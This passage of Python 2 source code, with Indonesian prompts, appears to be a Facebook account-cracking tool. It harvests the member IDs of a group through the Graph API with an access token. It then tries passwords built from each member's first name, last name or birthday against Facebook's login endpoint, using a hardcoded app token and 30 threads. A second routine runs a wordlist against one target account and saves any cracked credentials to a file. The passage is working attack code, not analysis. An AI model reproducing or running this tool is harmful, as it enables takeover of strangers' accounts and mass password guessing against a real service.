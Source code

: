 '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama grup \x1b[1;91m:\x1b[1;97m ' + asw['name'] except KeyError: print '\x1b[1;91m[!] Grup tidak ditemukan' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') super() re = requests.get('https://graph.facebook.com/' + idg + '/members?fields=name,id&limit=999999999&access_token=' + toket) s = json.loads(re.text) for i in s['data']: id.append(i['id']) else: if peak == '0': menu_hack() else: print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + peak + ' \x1b[1;91mTidak ada' pilih_super() print '\x1b[1;91m[+] \x1b[1;92mJumlah ID \x1b[1;91m: \x1b[1;97m' + str(len(id)) jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') titik = ['. ', '.. ', '... '] for o in titik: print '\r\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;97m' + o, sys.stdout.flush() time.sleep(1) print print 40 * '\x1b[1;97m\xe2\x95\x90' def main(arg): user = arg try: a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket) b = json.loads(a.text) pass1 = b['first_name'] + '123' data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') q = json.load(data) if 'access_token' in q: print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass1 else: if 'www.facebook.com' in q['error_msg']: print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass1 else: pass2 = b['first_name'] + '12345' data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') q = json.load(data) if 'access_token' in q: print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass2 else: if 'www.facebook.com' in q['error_msg']: print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass2 else: pass3 = b['last_name'] + '123' data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') q = json.load(data) if 'access_token' in q: print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass3 else: if 'www.facebook.com' in q['error_msg']: print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass3 else: lahir = b['birthday'] pass4 = lahir.replace('/', '') data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') q = json.load(data) if 'access_token' in q: print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass4 else: if 'www.facebook.com' in q['error_msg']: print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass4 except: pass p = ThreadPool(30) p.map(main, id) print '\n\x1b[1;91m[+] \x1b[1;97mSelesai' raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]') super() def brute(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() else: os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' try: email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail\x1b[1;97m/\x1b[1;92mHp \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ') passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m') total = open(passw, 'r') total = total.readlines() print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email print '\x1b[1;91m[+] \x1b[1;92mJumlah\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword' jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') sandi = open(passw, 'r') for pw in sandi: try: pw = pw.replace('\n', '') sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mMencoba \x1b[1;97m' + pw) sys.stdout.flush() data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6') mpsh = json.loads(data.text) if 'access_token' in mpsh: dapat = open('Brute.txt', 'w') dapat.write(email + ' | ' + pw + '\n') dapat.close() print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.' print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw keluar() else: if 'www.facebook.com' in mpsh['error_msg']: ceks = open('Brutecekpoint.txt', 'w') ceks.write(email + ' | ' + pw + '\n') ceks.close() print '\n\x1b[1;91m[+] \x1b[1;92mDitemukan.' print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint' print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw keluar() except requests.exceptions.ConnectionError: print '\x1b[1;91m[!] Koneksi Error' time.sleep(1) except IOError: print '\x1b[1;91m[!] File tidak ditemukan...' print '\n\x1b[1;91m[!] \x1b[1;92mSepertinya kamu tidak memiliki wordlist'
tanyaw() def tanyaw(): why =